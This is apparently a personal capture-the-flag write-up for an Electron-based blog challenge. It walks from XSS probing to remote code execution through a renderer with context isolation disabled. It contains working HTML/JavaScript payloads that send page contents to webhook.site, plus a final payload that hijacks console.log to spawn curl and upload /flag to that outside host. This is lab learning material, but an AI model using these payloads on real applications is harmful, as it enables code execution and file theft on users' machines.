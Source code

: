 ```yaml
---
created: 2024-06-21T22:48
updated: 2024-06-22T01:31
---
```


# Analysis

- Seems to be XSS, but the flag is stored on the file system `/flag`.
- It's an electron app
# Probing

First let's prob it with bunch of XSS payloads, check fields on `window` etc.

To prevent the script from running on my own computer, I've set a `localStorage` item called `no-go`.

```html
<img src =q onerror="if(!localStorage.getItem('no-go')){
					 window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+document.body.innerHTML.replace(/\s+/g,'');},1000)
	 });}">

<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+JSON.stringify(Object.keys(window));},1000)
	 });">
	 
<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {try{
	const replaceWithTypes = obj => Object.fromEntries(Object.entries(obj).map(([k, v]) => [k, [typeof v, typeof v === 'function'?v.toString():v]]));
	location='https://webhook.site/?w='+JSON.stringify(replaceWithTypes(window.__Process$));
	}catch(e){
    location='https://webhook.site/?w='+String(e);
    }});">
```

```html
<navclass="mb-3navbarnavbar-expand-lgbg-body-tertiary"><divclass="container"><aclass="navbar-brand"href="/">Blog</a></div></nav><divclass="container"><h1class="mb-3">w</h1><divid="content"class="mb-3"><imgsrc="q"onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load',async()=>{setTimeout(()=>{location='https://webhook.site/?w=' document.body.innerHTML.replace(/\s /g,'');},1000)});"></div><formmethod="post"action="/report/cccc208b-9e06-4ed5-8ff3-35ebe90fa330"><buttontype="submit"class="btnbtn-secondary">Report</button></form></div><footerid="admin-footer"class="mt-3p-3bg-light"><divclass="container">Adminconsole<spanid="app-version">0.0.1</span>,Node.js<spanid="node-version">20.11.1</span>,Chromium<spanid="chrome-version">124.0.6367.230</span>,Electron<spanid="electron-version">30.0.8</span>,<spanid="kernel-info">Linux74e6f3ed79eb6.1.92-99.174.amzn2023.x86_64
```

Other than that, nothing interesting.

> `window.__Process$` was just a dummy `process` object with no real use.

---
# Electron RCE

```js
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```

With some googling I found out that `contextIsolation: false` means the renderer runs in the same context, so I am actually running on node's context.

> Failed attempt on prototype pollution
> Tried to pollute `options.shell` `options.file` etc, didn't work.

# Final Solution

```html
<img src =q onerror="if (!localStorage.getItem('no-go')) {
    let s = [];
  	console.log = (cp) => {
	  	if(!cp.spawnfile) return;
	  	const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
		s.push('yay!')
  	};
    window.addEventListener('load', async () => {
        setTimeout(() => {
            let p = (new URLSearchParams({
                kernal: document.getElementById('kernel-info').textContent,
                logs: JSON.stringify(s),
                body: document.body.innerHTML.replace(/\s+/g, ' '),
            })).toString();
            location = 'https://webhook.site/?' + p.toString();
        }, 1000)
    });
}">
```

## Explanation

In `preload.js`

```js
...
const cp = spawn("uname", ["-a"]);
console.log(cp);
...
```

We can see that the child process object is sent to `console.log`, which we can take control over.

So we now have access to `cp`, we will create a new child process object with the command we want to run, and that is `curl`.

```js
const cp2 = new cp.constructor();
cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@flag', 'https://webhook.site/'] });
```

## Simplified

```html
<img src =q onerror="{
	console.log = (cp) => {
		if(!cp.spawnfile) return;
		const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
	};
}">
```

```
FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}
```
